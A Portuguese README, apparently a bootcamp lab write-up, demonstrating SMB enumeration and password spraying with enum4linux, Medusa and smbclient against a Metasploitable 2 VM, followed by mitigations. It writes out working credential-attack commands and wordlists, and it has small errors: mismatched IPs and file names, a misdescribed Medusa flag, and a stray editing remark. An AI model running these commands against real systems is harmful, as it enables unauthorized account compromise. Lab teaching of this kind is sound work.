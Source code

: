 # Simulação de Ataque Password Spraying em SMB - Metasploitable 2

## 📋 Visão Geral do Desafio

Este projeto demonstra técnicas de enumeração de usuários e password spraying no protocolo SMB, utilizando o ambiente controlado do Metasploitable 2. O objetivo é compreender vulnerabilidades comuns em implementações SMB e praticar medidas defensivas.

## 🔍 Conceitos Fundamentais

### Enumeração de Usuários
Técnica que identifica usuários válidos em um sistema através de análise de respostas do servidor. No contexto SMB, servidores mal configurados podem revelar informações sobre contas locais, políticas de senha e grupos de usuários.

### Password Spraying
Estratégia de ataque que testa poucas senhas comuns contra múltiplos usuários, evitando bloqueios por tentativas excessivas. Contrasta com ataques de força bruta tradicional que testam muitas senhas contra poucos usuários.

## Configuração do Ambiente de Testes

### 🔧 Ambiente Isolado e Seguro

Este laboratório foi configurado com **rede Host-Only no VirtualBox** para garantir um ambiente completamente isolado e seguro para os testes. 

### Características da Configuração:
- **🌐 Sem acesso à internet**: As máquinas virtuais não possuem conectividade com redes externas
- **🔒 Rede interna privada**: Comunicação restrita apenas entre o host e as VMs
- **🛡️ Ambiente controlado**: Ideal para testes ofensivos sem riscos de impacto em sistemas reais

### Por que essa configuração?
- Permite focar exclusivamente nas técnicas de segurança
- Elimina preocupações com tráfego indesejado para redes externas
- Cria um sandbox perfeito para aprendizado e experimentação
- Mantém todo o tráfego de rede visível e controlável

### VMs Utilizadas:
- **Kali Linux** - Ferramentas de teste de penetração
- **Metasploitable 2** - Alvo vulnerável deliberadamente

Esta abordagem garante que todos os exercícios permaneçam dentro do ambiente educacional, seguindo as melhores práticas de ethical hacking.

---

## 🛠️ Execução do Teste

### 1. Enumeração com Enum4linux
```bash
enum4linux -a 192.168.56.110 | tee enum4_output.txt
```
- **enum4linux**: Ferramenta de enumeração para protocolos SMB/RPC
- **192.168.56.102**: IP do Metasploitable 2 (no seu lab pode ser diferente)
- **-a**: Ativa todas as técnicas de enumeração disponíveis
- **tee**: Armazena a saída em arquivo enquanto exibe no terminal
- **Propósito**: Coletar informações sobre usuários, shares, grupos e configurações SMB

## Observações Adicionais:

O **enum4linux** é um wrapper que combina várias ferramentas como **smbclient**, **rpcclient**, **nmblookup** e **net** para realizar uma enumeração abrangente de serviços SMB.

A saída do comando pode revelar:
- Usuários locais e de domínio
- Shares de rede disponíveis
- Políticas de senha
- Informações do sistema
- Grupos e permissões

Está muito bom! Só ajustei o IP para manter consistência com a documentação anterior.

### 2. Análise dos Resultados
```bash
less enum4_output.txt
```
Examina o arquivo gerado para identificar usuários válidos e informações do sistema.

### 3. Criação de Wordlist de Usuários
```bash
echo -e "user\nmsfadmin\nservice" > smb_users.txt
```
Gera lista contendo nomes de usuários comuns para teste.

### 4. Preparação de Senhas para Spraying
```bash
echo -e "password\n123456\nWelcome1213\nmsfadmin" > senhas_spray.txt
```
Cria lista reduzida de senhas comuns para o ataque de password spraying.

### 5. Ataque com Medusa
```bash
medusa -h 192.168.56.110 -U smb_users.txt -P senhas.txt -M smbnt -t 2 -T 50
```
- **-h**: IP do alvo
- **-U**: Arquivo contendo usuários
- **-P**: Arquivo contendo senhas
- **-M smbnt**: Especifica módulo SMB
- **-t 2**: Threads simultâneas
- **-T 50**: Timeout entre tentativas

### 6. Validação de Acesso
```bash
smbclient -L //192.168.56.110 -U msfadmin
```
Agora é só testar o username e o password encontrado com o comando da Medusa.  
A conexão SMB é bem-sucedida com as credenciais comprometidas (do Metasploitable 2).  

## 🛡️ Medidas de Mitigação

### Contramedidas Recomendadas
- Implementar políticas de bloqueio de conta após tentativas falhas
- Utilizar autenticação multifator
- Configurar logs e monitoramento para detecção de tentativas
- Aplicar senhas complexas e únicas por conta
- Restringir acesso SMB à rede interna quando possível
- Atualizar e corrigir sistemas regularmente

## 💡 Aprendizados Adquiridos

- Compreensão prática de vulnerabilidades em serviços SMB
- Técnicas de enumeração em ambientes Windows/Linux
- Estratégias de password spraying e diferenciação de força bruta
- Configuração e uso de ferramentas de teste de penetração
- Importância de logging e monitoramento contínuo

## ⚠️ Considerações Éticas

Este teste foi realizado em ambiente controlado e isolado, utilizando máquinas virtuais dedicadas para fins educacionais. Todas as técnicas devem ser aplicadas apenas em sistemas onde você possui autorização explícita.

---
**Este projeto foi desenvolvido como parte do Santander Open Academy em parceria com a DIO (Digital Innovation One), representando uma valiosa oportunidade de aprimoramento técnico na área de segurança ofensiva e testes de penetração.**

*[Projeto educacional do desafio do Bootcamp Santander Cibersegurança 2025 em parceria com a DIO](https://web.dio.me/home)*

*Documentação técnica para fins educacionais - Contribuição para comunidade de segurança da informação*
